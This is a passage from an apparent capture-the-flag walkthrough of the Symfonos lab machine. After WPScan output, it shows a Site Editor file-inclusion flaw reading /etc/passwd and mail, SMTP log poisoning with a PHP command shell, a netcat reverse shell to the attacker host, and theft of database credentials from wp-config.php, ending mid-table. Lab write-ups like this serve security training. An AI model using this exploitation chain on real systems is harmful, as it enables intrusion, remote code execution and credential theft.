 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e4bda91b-067d-45e4-a8be-672ccf8b1a06
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11030
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47636/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-vccm-6gmc-qhjh
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress <= 5.2.3 - Hardening Bypass
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/378d7df5-bce2-406a-86b2-ff79cd699920
 |      - https://blog.ripstech.com/2020/wordpress-hardening-bypass/
 |      - https://hackerone.com/reports/436928
 |      - https://wordpress.org/news/2019/11/wordpress-5-2-4-update/
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/831e4a94-239c-4061-b66e-f5ca0dbb84fa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4046
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rpwf-hrh2-39jf
 |      - https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
 |      - https://www.youtube.com/watch?v=tCh7Y8z8fb4
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/741d07d1-2476-430a-b82f-e1228a9343a4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4047
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-8q2w-5m27-wm27
 |
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/12855f02-432e-4484-af09-7d0fbf596909
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4048
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/10e2a50c523cf0b9785555a688d7d36a40fbeccf
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-q6pw-gvf4-5fj5
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/d8addb42-e70b-4439-b828-fd0697e5d9d4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4049
 |      - https://www.exploit-db.com/exploits/48770/
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-87h4-phjv-rm6p
 |      - https://hackerone.com/reports/406289
 |
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/b6f69ff1-4c11-48d2-b512-c65168988c45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4050
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/dda0ccdd18f6532481406cabede19ae2ed1f575d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4vpv-fgg2-gcqc
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.2.10
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.2.11
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.2.13
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/

[+] WordPress theme in use: twentynineteen
 | Location: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css?ver=1.4
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css?ver=1.4, Match: 'Version: 1.4'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] mail-masta
 | Location: http://symfonos.local/h3l105/wp-content/plugins/mail-masta/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2014-09-19T07:52:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: Mail Masta <= 1.0 - Unauthenticated Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/5136d5cf-43c7-4d09-bf14-75ff8b77bb44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-10956
 |      - https://www.exploit-db.com/exploits/40290/
 |      - https://www.exploit-db.com/exploits/50226/
 |      - https://cxsecurity.com/issue/WLB-2016080220
 |
 | [!] Title: Mail Masta 1.0 - Multiple SQL Injection
 |     References:
 |      - https://wpscan.com/vulnerability/c992d921-4f5a-403a-9482-3131c69e383a
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6095
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6096
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6097
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6098
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6570
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6571
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6572
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6573
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6574
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6575
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6576
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6577
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6578
 |      - https://www.exploit-db.com/exploits/41438/
 |      - https://github.com/hamkovic/Mail-Masta-Wordpress-Plugin
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/mail-masta/readme.txt

[+] site-editor
 | Location: http://symfonos.local/h3l105/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/plugins/site-editor/readme.txt

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:16 <===============================> (23452 / 23452) 100.00% Time: 00:00:16
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentynineteen
 | Location: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Urls In Homepage (Passive Detection)
 | Confirmed By: Known Locations (Aggressive Detection)
 |  - http://symfonos.local/h3l105/wp-content/themes/twentynineteen/, status: 500
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://symfonos.local/h3l105/wp-content/themes/twentynineteen/style.css, Match: 'Version: 1.4'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <====================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <==========================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://symfonos.local/h3l105/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 4
 | Requests Remaining: 17

[+] Finished: Tue Jan  4 13:59:46 2022
[+] Requests Done: 23724
[+] Cached Requests: 14
[+] Data Sent: 6.442 MB
[+] Data Received: 3.712 MB
[+] Memory used: 301.047 MB
[+] Elapsed time: 00:00:24

```

Here are some interesting things:





[https://seclists.org/fulldisclosure/2018/Mar/40](https://seclists.org/fulldisclosure/2018/Mar/40)



## LFI in Site Editor

url: `view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
Debian-exim:x:105:109::/var/spool/exim4:/bin/false
messagebus:x:106:111::/var/run/dbus:/bin/false
sshd:x:107:65534::/run/sshd:/usr/sbin/nologin
helios:x:1000:1000:,,,:/home/helios:/bin/bash
mysql:x:108:114:MySQL Server,,,:/nonexistent:/bin/false
postfix:x:109:115::/var/spool/postfix:/bin/false
{"success":true,"data":{"output":[]}}
```



[Culprit code: https://github.com/SiteEditor/editor/blob/master/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php](https://github.com/SiteEditor/editor/blob/master/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php)



```php
<?php

if( isset( $_REQUEST['ajax_path'] ) && is_file( $_REQUEST['ajax_path'] ) && file_exists( $_REQUEST['ajax_path'] ) ){

    require_once $_REQUEST['ajax_path'];

}else{

    echo json_encode( array(
            'success' => false,
            'message' => "Error: didn't load shortcodes pattern file",
        )
    );

    return ;

}
...
?>
```

### Reading mail

Mail usually exists in `/var/mail/USER`, for example:

```shell
ls -lAh /var/mail
total 44K
-rw-rw---- 1 f0c1s mail 39K Jan  3 13:05 f0c1s

```

url: `view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios`

```
From root@symfonos.localdomain  Fri Jun 28 21:08:55 2019
Return-Path: <root@symfonos.localdomain>
X-Original-To: root
Delivered-To: root@symfonos.localdomain
Received: by symfonos.localdomain (Postfix, from userid 0)
	id 3DABA40B64; Fri, 28 Jun 2019 21:08:54 -0500 (CDT)
From: root@symfonos.localdomain (Cron Daemon)
To: root@symfonos.localdomain
Subject: Cron <root@symfonos> dhclient -nw
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
Message-Id: <20190629020855.3DABA40B64@symfonos.localdomain>
Date: Fri, 28 Jun 2019 21:08:54 -0500 (CDT)

/bin/sh: 1: dhclient: not found

From MAILER-DAEMON  Tue Jan  4 06:24:03 2022
Return-Path: <>
X-Original-To: helios@symfonos.localdomain
Delivered-To: helios@symfonos.localdomain
Received: by symfonos.localdomain (Postfix)
	id 3156C40B76; Tue,  4 Jan 2022 06:24:03 -0600 (CST)
Date: Tue,  4 Jan 2022 06:24:03 -0600 (CST)
From: MAILER-DAEMON@symfonos.localdomain (Mail Delivery System)
Subject: Undelivered Mail Returned to Sender
To: helios@symfonos.localdomain
Auto-Submitted: auto-replied
MIME-Version: 1.0
Content-Type: multipart/report; report-type=delivery-status;
	boundary="2EE7C40AB0.1641299043/symfonos.localdomain"
Content-Transfer-Encoding: 8bit
Message-Id: <20220104122403.3156C40B76@symfonos.localdomain>

This is a MIME-encapsulated message.

--2EE7C40AB0.1641299043/symfonos.localdomain
Content-Description: Notification
Content-Type: text/plain; charset=utf-8
Content-Transfer-Encoding: 8bit

This is the mail system at host symfonos.localdomain.

I'm sorry to have to inform you that your message could not
be delivered to one or more recipients. It's attached below.

For further assistance, please send mail to postmaster.

If you do so, please include this problem report. You can
delete your own text from the attached returned message.

                   The mail system

<helios@blah.com>: Host or domain name not found. Name service error for
    name=blah.com type=MX: Host not found, try again

--2EE7C40AB0.1641299043/symfonos.localdomain
Content-Description: Delivery report
Content-Type: message/delivery-status

Reporting-MTA: dns; symfonos.localdomain
X-Postfix-Queue-ID: 2EE7C40AB0
X-Postfix-Sender: rfc822; helios@symfonos.localdomain
Arrival-Date: Fri, 28 Jun 2019 19:46:02 -0500 (CDT)

Final-Recipient: rfc822; helios@blah.com
Original-Recipient: rfc822;helios@blah.com
Action: failed
Status: 4.4.3
Diagnostic-Code: X-Postfix; Host or domain name not found. Name service error
    for name=blah.com type=MX: Host not found, try again

--2EE7C40AB0.1641299043/symfonos.localdomain
Content-Description: Undelivered Message
Content-Type: message/rfc822
Content-Transfer-Encoding: 8bit

Return-Path: <helios@symfonos.localdomain>
Received: by symfonos.localdomain (Postfix, from userid 1000)
	id 2EE7C40AB0; Fri, 28 Jun 2019 19:46:02 -0500 (CDT)
To: helios@blah.com
Subject: New WordPress Site
X-PHP-Originating-Script: 1000:class-phpmailer.php
Date: Sat, 29 Jun 2019 00:46:02 +0000
From: WordPress <wordpress@192.168.201.134>
Message-ID: <65c8fc37d21cc0046899dadd559f3bd1@192.168.201.134>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

http://192.168.201.134/h3l105

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during installation.
Log in here: http://192.168.201.134/h3l105/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/


--2EE7C40AB0.1641299043/symfonos.localdomain--

{"success":true,"data":{"output":[]}}
```

This file is being read via PHP's require_once, what are the chances that it will execute our code if we write to it.

### Send an email


```shell
nc -nvC $RHOST 25
Connection to 192.168.56.88 25 port [tcp/*] succeeded!
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
ehlo f0c1s
250-symfonos.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250 SMTPUTF8
vrfy helios
252 2.0.0 helios
mail from: f0c1s
250 2.1.0 Ok
rcpt to: helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php echo "Hi there buddy" ?>
.
250 2.0.0 Ok: queued as 68623406E5

500 5.5.2 Error: bad syntax
quit
221 2.0.0 Bye

```

This should print "Hi there buddy" in the /var/mail/helios file.

If so, then probability of executing our code is high, I'd say, upper 100%s.



```shell
nc -nvC $RHOST 25
Connection to 192.168.56.88 25 port [tcp/*] succeeded!
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
ehlo f0c1s
250-symfonos.localdomain
250-PIPELINING
250-SIZE 10240000
250-VRFY
250-ETRN
250-STARTTLS
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250 SMTPUTF8
mail from: f0c1s
250 2.1.0 Ok
rcpt to: helios
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>

.
250 2.0.0 Ok: queued as 2536240B89

500 5.5.2 Error: bad syntax
quit
221 2.0.0 Bye


```

url: `view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=id`

```
From f0c1s@symfonos.localdomain  Tue Jan  4 08:24:10 2022
Return-Path: <f0c1s@symfonos.localdomain>
X-Original-To: helios
Delivered-To: helios@symfonos.localdomain
Received: from f0c1s (unknown [192.168.56.70])
	by symfonos.localdomain (Postfix) with ESMTP id 2536240B89
	for <helios>; Tue,  4 Jan 2022 08:23:27 -0600 (CST)

uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)


{"success":true,"data":{"output":[]}}
```

## Reverse shell

url doesn't work: `view-source:http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&cmd=%22bash%20-c%20%27bash%20-i%20%3E&%20/dev/tcp/192.168.56.70/443%200%3E&1%27%22`

`cmd=which nc` returns `/bin/nc`

`nc -nv 192.168.56.70 443` results in connection, but I am not sending a shell...

```shell
sudo nc -nlvp $LPORT -s $LHOST
[sudo] password for f0c1s:
Listening on 192.168.56.70 443
Connection received on 192.168.56.88 46412
id
^C

```

`nc -nv 192.168.56.70 443 -e /bin/bash` results in caught shell.

```shell
sudo nc -nlvp $LPORT -s $LHOST
Listening on 192.168.56.70 443
Connection received on 192.168.56.88 46414
id
uid=1000(helios) gid=1000(helios) groups=1000(helios),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
whoami
helios
hostname
symfonos
date
Tue Jan  4 08:28:59 CST 2022
pwd
/var/www/html/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes

which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
helios@symfonos:/home$

helios@symfonos:/home$ ls -lAhR
ls -lAhR
.:
total 4.0K
drwxr-xr-x 3 helios helios 4.0K Jun 28  2019 helios

./helios:
total 16K
lrwxrwxrwx 1 root   root      9 Jun 28  2019 .bash_history -> /dev/null
-rw-r--r-- 1 helios helios  220 Jun 28  2019 .bash_logout
-rw-r--r-- 1 helios helios 3.5K Jun 28  2019 .bashrc
-rw-r--r-- 1 helios helios  675 Jun 28  2019 .profile
drwxr-xr-x 2 helios helios 4.0K Jun 28  2019 share

./helios/share:
total 8.0K
-rwxr-xr-x 1 helios helios 432 Jun 28  2019 research.txt
-rwxr-xr-x 1 helios helios  52 Jun 28  2019 todo.txt
```

## Find

### config

```shell
helios@symfonos:/var/www/html$ ls -lAhR . | grep ".php$" | grep -i config
ls -lAhR . | grep ".php$" | grep -i config
-rw-r--r--  1 helios helios 2.9K Jan  7  2019 wp-config-sample.php
-rw-rw-rw-  1 helios helios 3.2K Jun 28  2019 wp-config.php
-rw-r--r-- 1 helios helios  16K Feb 12  2019 setup-config.php
-rw-r--r-- 1 helios helios  12K Jun 28  2019 config.php
-rw-r--r-- 1 helios helios  54K Jun 28  2019 config.php

helios@symfonos:/var/www/html$ grep -C5 -Hnri password */*config.php
grep -C5 -Hnri password */*config.php
h3l105/wp-config.php-23-define( 'DB_NAME', 'wordpress' );
h3l105/wp-config.php-24-
h3l105/wp-config.php-25-/** MySQL database username */
h3l105/wp-config.php-26-define( 'DB_USER', 'wordpress' );
h3l105/wp-config.php-27-
h3l105/wp-config.php:28:/** MySQL database password */
h3l105/wp-config.php:29:define( 'DB_PASSWORD', 'password123' );
h3l105/wp-config.php-30-
h3l105/wp-config.php-31-/** MySQL hostname */
h3l105/wp-config.php-32-define( 'DB_HOST', 'localhost' );
h3l105/wp-config.php-33-
h3l105/wp-config.php-34-/** Database Charset to use in creating database tables. */
```

Credentials: wordpress:password123

## DB access

```shell
helios@symfonos:/var/www/html$ mysql -uwordpress -ppassword123
mysql -uwordpress -ppassword123
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2
Server version: 10.1.38-MariaDB-0+deb9u1 Debian 9.8

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.01 sec)

MariaDB [(none)]> use wordpress;
use wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [wordpress]> show tables;
show tables;
+----------------------------+
| Tables_in_wordpress        |
+----------------------------+
| wp_commentmeta             |
| wp_comments                |
| wp_links                   |
| wp_masta_campaign          |
| wp_masta_cronapi           |
| wp_masta_list              |
| wp_masta_reports           |
| wp_masta_responder         |
| wp_masta_responder_reports |
| wp_masta_settings          |
| wp_masta_subscribers       |
| wp_masta_support           |
| wp_options                 |
| wp_postmeta                |
| wp_posts                   |
| wp_term_relationships      |
| wp_term_taxonomy           |
| wp_termmeta                |
| wp_terms                   |
| wp_usermeta                |
| wp_users                   |
+----------------------------+
21 rows in set (0.00 sec)

MariaDB [wordpress]> desc wp_users;
desc wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
